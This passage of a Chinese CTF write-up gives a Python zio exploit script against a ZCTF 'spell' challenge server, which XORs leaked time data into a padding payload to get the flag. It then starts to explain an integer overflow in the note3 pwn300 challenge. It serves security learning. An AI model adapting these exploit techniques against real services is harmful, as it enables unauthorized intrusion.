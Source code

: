 

```
__author__ = "pxx"
from zio import *
target = ("115.28.27.103", 33333)
def get_io(target):
r_m = COLORED(RAW, "green")
w_m = COLORED(RAW, "blue")
io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
#io = process(target, timeout = 9999)
return  io
def pwn(io):
io.read_until("How long of your spell:")
io.writeline("256")
io.read_until("At ")
time_info = io.read_until(": ")
io.read_until("you enter the spell: ")
time_info = time_info + "x00"
info = "zctfflag"
result = []
padding = ""
for i in range(8):
padding += chr(ord(time_info[i]) ^ ord(info[i]))
payload = padding * 7
payload += "x00"
payload = payload.ljust(256, 'a')
payload += 'x02'
io.writeline(payload)
io.interact()
io = get_io(target)
pwn(io)
```



结果:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01b908d41ddd93ac54.png)

flag: ZCTF`{`SPELL_IS_IN_THE_D33wRIVER`}`

note3(pwn300):

该题是note系列第三个,问题依然在edit中,如下图:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0195c703586bd6be83.png)

其中输入的id经过一些列运算,其中get_long函数中,转换是atol,而发行len&lt;0时,将len=-len,这里有个整数型溢出问题,因为0x8000000000000000 = -0x8000000000000000。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0103ab745139f1da87.png)
